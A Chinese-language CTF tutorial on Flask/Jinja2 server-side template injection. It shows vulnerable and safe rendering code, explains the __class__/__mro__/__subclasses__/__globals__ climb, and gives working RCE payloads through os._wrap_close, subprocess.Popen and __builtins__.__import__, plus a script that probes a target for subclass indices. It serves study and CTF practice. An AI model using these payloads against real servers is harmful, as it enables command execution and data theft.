

> [!TIP] 推荐前置知识点
> 本篇核心在于 Python 面向对象（OOP）、类继承关系树与 `__class__` / `__mro__` 原型链机制。建议先查阅：
> - 🔰 [[01-零基础入门前置指南与黑话工具字典]] 的「语言/工具前置清单」与「Python 极简避坑指南」。
> - 📘 核心认知：在 Python 中“万物皆对象”，所有类最终都继承自 `object` 根类。

# 🐍 Python Flask/Jinja2 SSTI 底层原理：MRO 原型链攀爬与 RCE 终极利用

> **漏洞成因**：在基于 Flask / Jinja2 的 Web 架构中，模板引擎的设计初衷是将“前端视图模板”与“后端业务数据”严格分离渲染。
> 但若开发者错误地使用了字符串格式化（如 `render_template_string(f"Hello {name}")` 或 `+` 拼接），将用户输入**直接作为模板语句本身传入编译**，攻击者即可在双花括号 `{{ ... }}` 内执行任意 Python 表达式，通过遍历 Python 对象的基类与全局作用域（`__globals__`）实现服务器完全控制！

---

### 💡 读前必看：本篇语言与工具前置清单
* **必须具备的基础**：
  * **Python 面向对象基础**：知道什么是类（Class）、对象（Object）、继承（Inheritance），知道 Python 中万物皆对象，终极基类是 object。
  * **魔术属性**：知道 __class__ 可以查看当前对象的类，__mro__ 可以查看类的祖先继承树。
* **本篇核心术语速查**：
  * MRO (Method Resolution Order)：方法解析顺序，Python 在继承链条中从下往上寻找属性和方法的路线图。
  * __globals__：Python 函数对象的全局命名空间字典，里面包含了该函数所在模块加载的所有变量和库（包括高危的 os 库）。

## 一、漏洞代码模型与安全编码对比

```python
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name')
    
    # 💥 致命错误：直接拼接字符串作为模板内容编译！
    template = f"<h1>Hello, {name}!</h1>"
    return render_template_string(template)
    
    # ✅ 安全写法：使用模板参数绑定（Jinja2 会将输入视为纯数据，不进行表达式解析）
    # return render_template_string("<h1>Hello, {{ name }}!</h1>", name=name)
```

---

## 二、Python 面向对象底层的“攀爬与回溯”四步法

> [!NOTE] 💡 小白通俗扫盲：在模板沙箱中“攀爬族谱寻找军火商”
> * **什么是模板双花括号 `{{ ... }}`？**
>   * 在 Jinja2 模板引擎中，双花括号 `{{ }}` 的作用就像计算器的“等于号”——它会把括号内的任何 Python 表达式计算求值，并把结果打印在网页上。输入 `{{ 7*7 }}` 页面就会显示 `49`。
> * **黑客的困境**：在模板沙箱里，我们不能直接写 `import os; os.system('cat /flag')`，因为 Jinja2 禁用了 `import` 关键字。
> * **破局生活比喻（族谱与军火商）**：
>   1. **普通平民（空字符串 `""`）**：我们手上只有一个无害的平民对象（空字符串 `""` 或空元组 `()`），它自己没有任何杀伤力，只能做做字符串拼接；
>   2. **顺藤摸瓜找爸爸（`.__class__`）**：我们问这个平民“你的图纸/出身是谁？”，它回答：我是字符串类（`<class 'str'>`）；
>   3. **认祖归宗找万物始祖（`.__mro__`）**：在 Python 的面向对象世界中，**所有的类都继承自唯一的‘老祖宗’——`object`（万物基类）**！顺着继承链往上爬，就能直接找到 `object`；
>   4. **召集全家族所有子孙（`.__subclasses__()`）**：老祖宗 `object` 拥有一个特权方法，能把**当前服务器内存里加载的成百上千个所有子类全部叫出来排排站**！
>   5. **挑出潜伏的军火商（`os._wrap_close` 或 `subprocess.Popen`）**：在这几百个子类里，绝大多数是做数学计算或字符串处理的，但**必然藏着几个负责管理操作系统进程与文件的‘军火商类’**！
>   6. **翻找军火库执行命令（`.__init__.__globals__`）**：逮住这个军火商类，搜它的口袋（全局命名空间 `__globals__`），里面赫然躺着 `os` 模块或者 `eval`、`popen` 函数！直接调用执行系统命令，拿到 Flag！



---

## 三、核心魔术属性与反射方法逐字剖析

| 魔术属性 / 方法 | 语法含义与底层行为 | 为什么在 SSTI 中不可或缺？ |
| :--- | :--- | :--- |
| `__class__` | 返回当前对象所属的 Python 类对象（如 `str`、`tuple`）。 | 脱离字面量数据，进入类的元编程上下文。 |
| `__mro__` / `__base__` | **方法解析顺序（Method Resolution Order）元组**。<br>`__base__` 返回直接父类；`__mro__` 返回该类继承链上的所有祖先类。 | `().__class__.__mro__[1]` 或 `"".__class__.__base__` 可以**直接精准定位到 Python 顶级根类 `object`**！ |
| `__subclasses__()` | `object` 基类的方法。**返回当前 Python 运行时内存中加载的所有继承自 `object` 的子类列表！** | 展开 Python 运行时的全量类字典树（通常包含 100~500 个类）。 |
| `__init__` | 提取某个类的初始化构造函数（方法对象）。 | 函数对象拥有访问外部模块的特权。 |
| `__globals__` | **以字典格式返回该函数定义时所处的全局命名空间（Global Namespace）！** | **核心漏洞点！** 函数定义所在的全局空间里，往往导入了 `os`、`sys` 或内置函数字典 `__builtins__`！ |

---

## 四、四大黄金 Gadget 子类深度拆解与 Payload 构造

### 1. 黄金子类一：`os._wrap_close`（最稳妥、最常见）
在标准 Python 3 环境中，`os._wrap_close` 必定存在，且其构造函数直接导入了 `os` 模块！

#### 🔍 利用 Payload：
```jinja2
{{ "".__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['popen']('cat /flag').read() }}
```
* `[133]`：`os._wrap_close` 在子类列表中的索引（注意：不同 Python 版本索引数字不同，通常在 100~200 之间）。
* `['popen']`：直接提取了 `os.popen()` 函数。
* `.read()`：读取管道执行结果并回显到 HTML 页面上！

---

### 2. 黄金子类二：`subprocess.Popen`（直接命令执行类）
如果环境中存在 `subprocess.Popen`，它本身就是一个进程创建类，**完全不需要借助 `__globals__`**，直接实例化即可传参执行命令！

#### 🔍 利用 Payload：
```jinja2
{{ "".__class__.__mro__[1].__subclasses__()[250]('cat /flag', shell=True, stdout=-1).communicate()[0].strip() }}
```
* `shell=True`：允许执行复杂的 Linux Shell 管道与通配符。
* `stdout=-1`：即 `subprocess.PIPE`，捕获标准输出。
* `.communicate()[0]`：获取输出字节流。

---

### 3. 黄金子类三：`warnings.catch_warnings` 结合 `__builtins__`
很多时候 `os` 没有直接暴露在全局变量中，但只要能拿到全局作用域中的 `__builtins__`，就能调用原生的 `__import__` 重新把 `os` 引入进来！

#### 🔍 利用 Payload：
```jinja2
{{ "".__class__.__mro__[1].__subclasses__()[105].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read() }}
```

---

## 五、实战利器：一键动态爆破子类索引脚本

> [!WARNING]
> **初学者必踩大坑**：
> 很多选手在网上随便找了个 Payload `[133]` 扔进去直接报错崩溃。
> **原因**：由于 Python 3.8、3.9、3.10、3.11 安装的第三方库不同，子类的排列顺序是**动态变化**的！
> **正解**：先通过脚本一键探测目标环境中目标类的真实索引！

```python
import requests
import re

TARGET_URL = "http://127.0.0.1:5000/hello"

def find_subclass_index():
    # 1. 提取目标环境当前所有的子类列表
    payload = "{{ ''.__class__.__mro__[1].__subclasses__() }}"
    resp = requests.get(TARGET_URL, params={'name': payload})
    classes = resp.text
    
    # 2. 正则拆分子类数组
    class_list = re.findall(r"<class '([^']+)'>", classes)
    
    print(f"[*] 目标环境共加载了 {len(class_list)} 个子类。")
    for idx, c in enumerate(class_list):
        if "os._wrap_close" in c:
            print(f"[★] 命中 os._wrap_close -> 索引为: [{idx}]")
        elif "subprocess.Popen" in c:
            print(f"[★] 命中 subprocess.Popen -> 索引为: [{idx}]")
        elif "catch_warnings" in c:
            print(f"[★] 命中 catch_warnings  -> 索引为: [{idx}]")

if __name__ == "__main__":
    find_subclass_index()
```

---

## 🔗 相关双向链接
- 上级模块：[[06-SSTI模板注入体系]]
- 高阶绕过：[[Jinja2黑名单全过滤绕过：无下划线无引号无点无数字对抗]]
- 跨语言模板：[[PHP与Java模板引擎注入：Smarty、Twig与SpEL表达式执行]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
